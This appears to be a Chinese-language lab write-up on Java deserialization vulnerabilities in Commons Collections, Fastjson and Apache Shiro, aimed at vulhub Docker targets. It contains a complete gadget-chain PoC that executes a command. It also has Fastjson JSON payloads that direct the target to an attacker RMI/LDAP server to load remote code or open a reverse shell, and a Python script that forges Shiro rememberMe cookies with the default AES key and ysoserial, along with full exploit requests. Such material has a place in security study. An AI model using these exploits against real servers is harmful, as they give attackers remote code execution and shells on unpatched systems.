其中该类的checkSetValue方法，作用是让valueTransformer属性对象执行transform方法。

	

思路有了可以通过chechSetValue方法来传入chainedTransformer对象来执行，那又怎么执行自动执行checkSetValue方法呢?

在AbstractInputCheckedMapDecorator类的静态内部类MapEntry类中的setValue方法的执行会触发checkSetValue方法的执行。

		

那又如何使得setValue方法被触发呢?只需找一个对象，能在反序列化的时候给map进行元素赋值，那么就会调用setValue函数。

而MapEntry类继承的AbstractMapEntryDecorator类实现了Map的接口，而map内部又嵌套了Entry接口。从而实现了Entry类的setValue方法。

	

而AnnotationInvocationHandler类被反序列化会自动执行readObject方法，而里面也有setValue方法，也会自动执行。

	

poc构造

	

poc代码如下。

```java
package com.wuya.apache;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

/**
 * 封装为TransformedMap
 */
public class Poc {
    public static void main(String[] args) {
        try {
            Transformer[] transformers = new Transformer[]{
                    // 获得Runtime类对象
                    new ConstantTransformer(Runtime.class),
                    // 传入Runtime类对象 反射执行getMethod获得getRuntime方法
                    new InvokerTransformer(
                            "getMethod",
                            new Class[]{String.class, Class[].class},
                            new Object[]{"getRuntime", null}
                    ),
                    // 传入getRuntime方法对象 反射执行invoke方法 得到Runtime实例
                    new InvokerTransformer("invoke",
                            new Class[]{Object.class, Object[].class},
                            new Object[]{null, null}
                    ),
                    // 传入Runtime实例 执行exec方法
                    new InvokerTransformer("exec",
                            new Class[]{String.class},
                            new Object[]{"calc.exe"})
            };

            ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

            Map innermap = new HashMap();
            innermap.put("value", "value");
            //outermap对象传入的value是具有恶意代码的chainedTransformer对象
            Map outermap = TransformedMap.decorate(innermap, null, chainedTransformer);
            // 构造包含恶意map的AnnotationInvocationHandler对象
            Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor cst = cl.getDeclaredConstructor(Class.class, Map.class);
            cst.setAccessible(true);
            Object exploitObj = cst.newInstance(Target.class, outermap);

            // 序列化
            FileOutputStream fos = new FileOutputStream("payload.bin");
            ObjectOutputStream oos = new ObjectOutputStream(fos);
            oos.writeObject(exploitObj);
            oos.close();

            // 反序列化，会自动调用outermap的setvalue函数。于是调用链形成。
            FileInputStream fis = new FileInputStream("payload.bin");
            ObjectInputStream ois = new ObjectInputStream(fis);
            Object result = ois.readObject();
            ois.close();
            System.out.println(result);

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

运行这个poc，会打开计算器程序。

	

调用流程总结

	

## Fastjson反序列化漏洞


要实现这个反序列化漏洞，需要保证fastjson版本低于如下两个。	

	

确保版本的环境符合。

	

关于序列化需要知道的一些知识，根据下面代码的运行结果可以得知，如果类中的私有成员变量没有get方法，那么序列化的时候将会忽略这个成员变量。

```java
import com.alibaba.fastjson.JSON;

import java.io.*;

public class ttt implements Serializable {
    private String name; // 私有属性，有 getter、setter 方法
    private int age; // 私有属性，有 getter、setter 方法
    private boolean flag; // 私有属性，有 is、setter 方法
    public String sex; // 公有属性，无 getter、setter 方法
    private String address; // 私有属性，无 getter、setter 方法

    // Getters 和 Setters
    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }

    public boolean isFlag() {
        return flag;
    }

    public void setFlag(boolean flag) {
        this.flag = flag;
    }

    public static void main(String[] args) {
            // 创建 User 对象并赋值
            ttt user = new ttt();
            user.setName("John");
            user.setAge(30);
            user.setFlag(true);
            user.sex = "Male";
            user.address = "123 Main St";

            String str= JSON.toJSONString(user); //序列化user对象。
            System.out.println(str);
    }
}

```

运行结果

	

user.java文件，定义了user类，其中address私有属性不具有setter方法。

```java
package com.wuya.test;

public class User {
    private String name; //私有属性，有getter、setter方法
    private int age; //私有属性，有getter、setter方法
    private boolean flag; //私有属性，有is、setter方法
    public String sex; //公有属性，无getter、setter方法
    private String address; //私有属性，无getter、setter方法

    public User() {
        System.out.println("call User default Constructor");
    }

    public String getName() {
        System.out.println("call User getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("call User setName");
        this.name = name;
    }

    public int getAge() {
        System.out.println("call User getAge");
        return age;
    }

    public void setAge(int age) {
        System.out.println("call User setAge");
        this.age = age;
    }

    public boolean isFlag() {
        System.out.println("call User isFlag");
        return flag;
    }

    public void setFlag(boolean flag) {
        System.out.println("call User setFlag");
        this.flag = flag;
    }

    @Override
    public String toString() {
        return "User{" +
                "name='" + name + '\'' +
        ", age=" + age +
                ", flag=" + flag +
                ", sex='" + sex + '\'' +
        ", address='" + address + '\'' +
        '}';
    }

/*    interface Fruit {
    }

    class Apple implements Fruit {
        private BigDecimal price;
        //省略 setter/getter、toString等

    }*/

}

```

分别由两种反序列化函数，parse函数不能指定反序列化后类的类型，默认返回Object类型，而parseObject能指定反序列化后的类型。

```java
package com.wuya.test;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class JsonTest {
    public static void main(String[] args) {
        // 从1.2.25开始，autotype默认关闭
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        // 序列化字符
        String serializedStr = "{\"@type\":\"com.wuya.test.User\",\"name\":\"wuya\",\"age\":66, \"flag\": true,\"sex\":\"boy\",\"address\":\"china\"}";//
        System.out.println("serializedStr=" + serializedStr);

        System.out.println("-----------------------------------------------\n\n");
        //通过parse方法进行反序列化，返回的是一个JSONObject]
        System.out.println("JSON.parse(serializedStr)：");
        Object obj1 =JSON.parse(serializedStr);
        System.out.println("parse反序列化对象名称:" + obj1.getClass().getName());
        System.out.println("parse反序列化：" + obj1);
        System.out.println("-----------------------------------------------\n");

        // 通过parseObject,不指定类，返回的是一个JSONObject
        System.out.println("JSON.parseObject(serializedStr)：");
        Object obj2 = JSON.parseObject(serializedStr);
        System.out.println("parseObject反序列化对象名称:" + obj2.getClass().getName());
        System.out.println("parseObject反序列化:" + obj2);
        System.out.println("-----------------------------------------------\n");

        // 通过parseObject,指定为object.class
        System.out.println("JSON.parseObject(serializedStr, Object.class)：");
        Object obj3 = JSON.parseObject(serializedStr, Object.class);
        System.out.println("parseObject反序列化对象名称:" + obj3.getClass().getName());
        System.out.println("parseObject反序列化:" + obj3);
        System.out.println("-----------------------------------------------\n");

        // 通过parseObject,指定为User.class
        System.out.println("JSON.parseObject(serializedStr, User.class)：");
        Object obj4 = JSON.parseObject(serializedStr, User.class);
        System.out.println("parseObject反序列化对象名称:" + obj4.getClass().getName());
        System.out.println("parseObject反序列化:" + obj4);
        System.out.println("-----------------------------------------------\n");
    }

}
```

通过运行结果可得知，类中的私有成员变量在反序列化类的过程会自动调用setter方法，而公有成员变量则不会，如果私有成员变量没有setter方法，那么反序列化后该私有成员变量的属性值将会失效。

```java
serializedStr={"@type":"com.wuya.test.User","name":"wuya","age":66, "flag": true,"sex":"boy","address":"china"}
-----------------------------------------------

JSON.parse(serializedStr)：
call User default Constructor
call User setName
call User setAge
call User setFlag
parse反序列化对象名称:com.wuya.test.User
parse反序列化：User{name='wuya', age=66, flag=true, sex='boy', address='null'}
-----------------------------------------------

JSON.parseObject(serializedStr)：
call User default Constructor
call User setName
call User setAge
call User setFlag
call User getAge
call User isFlag
call User getName
parseObject反序列化对象名称:com.alibaba.fastjson.JSONObject
parseObject反序列化:{"flag":true,"sex":"boy","name":"wuya","age":66}
-----------------------------------------------

JSON.parseObject(serializedStr, Object.class)：
call User default Constructor
call User setName
call User setAge
call User setFlag
parseObject反序列化对象名称:com.wuya.test.User
parseObject反序列化:User{name='wuya', age=66, flag=true, sex='boy', address='null'}
-----------------------------------------------

JSON.parseObject(serializedStr, User.class)：
call User default Constructor
call User setName
call User setAge
call User setFlag
parseObject反序列化对象名称:com.wuya.test.User
parseObject反序列化:User{name='wuya', age=66, flag=true, sex='boy', address='null'}
-----------------------------------------------


Process finished with exit code 0

```

总结如下。

	

fastjson实现反序列化的两个方法，在反序列化的时候，第二个参数用于指定反序列化后的对象类型。若不指定需要使用Object对象类型进行接收。

	

如果@type自省，那么就可以不填第二个参数。并且反序列化为了保证类型不丢失也需要使用自省，之所以这么说原因如下。

当一个类只有一个接口的时候，将这个类的对象序列化的时候，就会将子类抹去（apple/iphone）只保留接口的类型(Fruit)，最后导致反序列化时无法得到原始类型。本例中，**将两个json再反序列化生成java对象的时候，无法区分原始类是apple还是iphone。**	

	

### fastjson小总结

实现该漏洞的总体流程

```
实现该漏洞的总体流程
1.攻击者（我们）访问存在fastjson漏洞的目标靶机网站，通过burpsuite抓包改包，以json格式添加com.sun.rowset.JdbcRowSetImpl恶意类信息发送给目标机。
2.存在漏洞的靶机对json反序列化时候，会加载执行我们构造的恶意信息(访问rmi服务器)，靶机服务器就会向rmi服务器请求待执行的命令。也就是靶机服务器问rmi服务器，（靶机服务器）需要执行什么命令啊？
3.rmi 服务器请求加载远程机器的class（这个远程机器是我们搭建好的恶意站点，提前将漏洞利用的代码编译得到.class文件，并上传至恶意站点），得到攻击者（我们）构造好的命令（ping dnslog或者创建文件或者反弹shell啥的）
4.rmi将远程加载得到的class（恶意代码），作为响应返回给靶机服务器。
5.靶机服务器执行了恶意代码，被攻击者成功利用。
```

	

	

首先根据参考资料，让CentoS替换成阿里的yum源,并且安装docker。

接下来开始在docker里面安装vulhub靶场

这条命令会从 GitHub 下载适合当前系统架构的 `docker-compose` 版本 1.29.2，并将下载的文件保存为 `/usr/local/bin/docker-compose`。

	

并且加上可执行权限。

	

查看docker-compose版本。

	

安装git。

	

创建该目录，并

	

启动vulhub中的fastjson靶场

如果启动fastjson拉取镜像失败，那么去网上找最新docker镜像加速器。

	

fastjson靶场部署完毕。

		

kali设置python默认是python3

在update-alternative添加python2和python3这两个替代方案，在系统中设置或更新 `python` 命令，使其指向 `/usr/bin/python2`（Python 2 版本）。

设置该版本的优先级为 `100`。如果将来你安装了另一个 Python 版本并设置了更高的优先级，那么系统在调用 `python` 命令时会选择优先级更高的版本。

		

由于下载两个python版本，这里切换成python3版本。

		

并且为了保证后续实验顺利进行，需要给kali和centos7安装jdk8的环境。

首先下载jdk1.8并传入到虚拟机指定的目录。

	

把linux的jdk进行解压

	

把这个jdk放到指定目录下，并修改名称。

	

给jdk目录下的所有文件设置可执行权限。

	

配置JRE版本环境变量

	

	

执行环境变量配置文件

	

能查看java版本信息，说明安装jdk环境成功。

	

同理kali也需要安装jdk环境。但有一小部分不一样，kali不需要source环境变量，把jdk放入指定路径，并在update-alternative管理工具添加新的jdk8版本。

	

于是java版本切换成功。

	

在idea打开恶意代码，这个可以实现RCE漏洞，主要作用是：fastjson容器靶场去执行创建文件的操作。

	

注意编译源码时要去除com.wuya的包名，因为反序列化的时候，靶场不一定有这个包名，所以不去掉会导致反序列化失败。

并且为了保证实验成功，需要将该文件复制到jdk8版本下进行编译。

	

编译完恶意代码，把其中的class文件，放入到kali自定义的目录下。

	

	

在当前目录下启动一个简单的 HTTP 服务器，监听端口 `8089`。

	

搭建http服务器成功。

	

把该jar包传入到kali指定目录。

	

启动 marshalsec 工具中的 RMIRefServer 类，它会启动一个 RMI 引用服务器。该服务器提供的引用对象可以通过 http://192.168.15.141:8089/#LinuxTouch 这个 URL 访问。RMI 服务监听在 9473 端口，等待远程客户端连接

	

使用bp抓包,修改Host请求的主机是fastjson，并且设置datSourceName属性为rmi引用服务器的地址和端口。点击send发送。

	

```
payload:

POST / HTTP/1.1
Host: 192.168.15.50:8090
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 146
{
	"b": {
		"@type": "com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName": "rmi://192.168.15.141:9473/LinuxTouch",
		"autoCommit": true
	}
}
```

于是即可在容器中查找到创建的文件，这里没有复现成功。

	

接下来利用1.2.47版本复现第二个fastjson漏洞，首先监听9001端口

	

http仍然使用python打开，并且启动LDAP转发器

	

使用bp发送post请求给fastjson靶场。

	

```
payload:


POST / HTTP/1.1
Host: 192.168.15.50:8090
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 268
{
	"a": {
		"@type": "java.lang.Class",
		"val": "com.sun.rowset.JdbcRowSetImpl"
	},
	"b": {
		"@type": "com.sun.rowset.JdbcRowSetImpl",
		"dataSourceName": "ldap://192.168.15.141:9473/LinuxRevers",
		"autoCommit": true
	}
}
```

实现shell反弹，当然这里也没复现成功。

	

源码分析利用流程

	

setAutoCommit函数调用了connect函数。

	

而connect函数会调用lookup函数来连接到LDAP/RMI服务器，从而转发恶意代码执行。

	

漏洞挖掘思路。判断fastjson可以故意输入非法格式，通过回显的结果判断是否fastjson。

	

修复该漏洞的方法。

	

	

## apache shiro反序列化漏洞

	

shiro的介绍

**Apache Shiro是一个强大且易用的Java安全框架,执行身份验证、授权、密码和会话管理。**

	

	

### 漏洞原因分析

```
在Apache shiro的框架中，执行身份验证时提供了一个记住密码的功能（RememberMe），如果用户登录时勾选了这个选项。用户的请求数据包中将会在cookie字段多出一段数据，这一段数据包含了用户的身份信息，且是经过加密的。加密的过程是：用户信息=>序列化=>AES加密（这一步需要用密钥key）=>base64编码=>添加到RememberMe Cookie字段。勾选记住密码之后，下次登录时，服务端会根据客户端请求包中的cookie值进行身份验证，无需登录即可访问。那么显然，服务端进行对cookie进行验证的步骤就是：取出请求包中rememberMe的cookie值 => Base64解码=>AES解密（用到密钥key）=>反序列化。

漏洞利用思路:
既然能进行序列化，那我们可以对我们自己的攻击代码进行相同的AES加密，base64编码以后产生rememberMe字段发给服务端，服务端反向进行解密得到我们攻击代码并会运行，进而我们就攻击成功了
```

	

主要的难点。怎么知道aes的密钥，以及构造一个反序列化后的对象可以通过readObject方法去执行命令。

	

登录流程。

	

验证流程


### 漏洞环境搭建

首先下载源码包，并且从idea打开源码包对应的目录

	

在pom.xml需要在此处加版本号。

	

也需要加common-collections依赖。

	

让maven导入这些依赖。

	

配置tomcat服务器。


并且导入war包即可运行此项目。

	

项目启动成功。

	

### 利用工具和方式

JRMP是RMI底层的工作协议，而RMI是用于远程引用的。

	

	

	

	

	

### 利用实现1

	

这些常见的检测工具可以实现shiro反序列化漏洞的操作。

	

这里我们可以尝试先通过docker搭建shiro靶场。docker靶场比较容易复现漏洞。

	

搭建靶场成功。

	

使用shiro_tool.jar来探测靶场地址是否有shiro反序列化漏洞。首先探测出公钥。

	

并且发现很多漏洞能够使用。

	

接下来使用shiro_attack探测工具进行shiro反序列化漏洞复现.

java -jar加载该探测工具，并且爆破目标地址的密钥。

	

检测利用链，发现其中有构造链，于是可以尝试命令的执行。


于是实现远程代码执行。	

	

同理也可拿来攻击idea部署的shiro靶场。


通过源码分析可以查看shiro框架所使用的是写死的密钥。与探测工具爆破的密钥是一样。

		

### 利用实现2

完整流程

	

首先kali作为攻击机先监听7777端口。

	

把反弹链接的恶意代码进行base64加密，当然这里需要使用特定的网站来生成base64编码的payload,复制这个编码后的payload用于给RMI转发给被攻击机恶意代码。

```
该网站:https://ares-x.com/tools/runtime-exec/
```

	

这段命令涉及使用 `ysoserial` 工具来启动一个 Java RMI 监听器 (`JRMPListener`)，端口为8888，并利用 Java 反序列化漏洞执行一个远程命令。

	

首先安装加密模块

	

用python3去运行shiro.py，这个加密的长串字符串，主要就是让shiro靶场机根据rememberMe的cookie值，反序列化后，会以JRMP客户端去访问JRMP服务端。然后JRMP服务端会把恶意代码给到靶场，靶场执行后，就会把shell反弹连接给攻击机。

	

分析shiro.py源码文件

```
整体流程:
生成攻击载荷：通过 ysoserial 工具生成一个基于 JRMPClient 的 Java 反序列化 payload。
加密和编码：使用 AES 密钥对 payload 进行加密，并将加密结果与 IV 组合后进行 Base64 编码。
输出结果：生成的结果作为 Shiro 的 rememberMe cookie 值输出，可以用于实际攻击。
```

```python
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    # 打开JRMP客户端，连接到特定端口
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    # 用获取到的key  AES加密
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    # 生成随机16位长度的IV
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    # base64编码
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])   
print("rememberMe={0}".format(payload.decode()))
```

bp使用repeater模块，通过post请求发给靶场。

	

具体的payload如下

```
payload:

POST /doLogin HTTP/1.1
Host: 192.168.15.50:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: http://192.168.15.50:8080
Connection: close
Referer: http://192.168.15.50:8080/doLogin
Cookie: JSESSIONID=BE2042921ED0A1E58436F6FBD5654581;rememberMe=OIM+rTYaSxmTP79U/M0wXw15xY34Hh/ob6Mv30luLvMAJvAvLL9IOA8d5+KGbefFvp8ApuCOfSkXL9Z8kZgNG9tIs2ZPnxMR/dHWXz2pwMb6Xte6hyggCbyqrx46blSvZl35NwwODPUHiABAwRdFtrB9bpx8YMdKZZjLxR7haBWgDdLCfi0vvmvPPAYp/y2Sn+AWe9zGD3DQvCs6VROGWmG8Y4qMbM1Qx8JgsjEA7RE7PTXd3W2pBHBfK0Ipqub1eUTRcPfm4PYQfk6DA2PiY4M+KTGUYUoWaUGV3s3TKILCkg2jV2/dBZMEpkpxUPED7AHWdy0esRe7gI2rWEQWCYDuW9f+D5YbM392wD+TeppmyyU6YOd+GaxWIpA9mYDTYC6buM+jVHVHZAT/RNPhAQ==

username=a&password=b&rememberme=remember-me

```

通过反弹连接，可以对靶机执行任何操作。

	

### shiro小总结

```
shiro的个人心得:
首先kali会监听7777端口，用于接收反弹连接，并且kali作为攻击机会监听8888端口并开启JRMP服务器，这个JRMP服务器会携带反弹连接的恶意代码，紧接着通过shiro.py文件获得一串字符串，这个字符串会以cookie的形式传给shiro靶场，而shiro靶场经过base64解码，aes解密并且反序列化后，会触发函数，触发的函数会使得靶场机去访问JRMP服务器，JRMP服务器会把反弹连接代码给到靶场机。靶场机执行后，会把自己的shell窗口暴露给kali的7777端口。于是kali就实现了RCE漏洞操纵靶场机。
```

修复防御的手段。

	

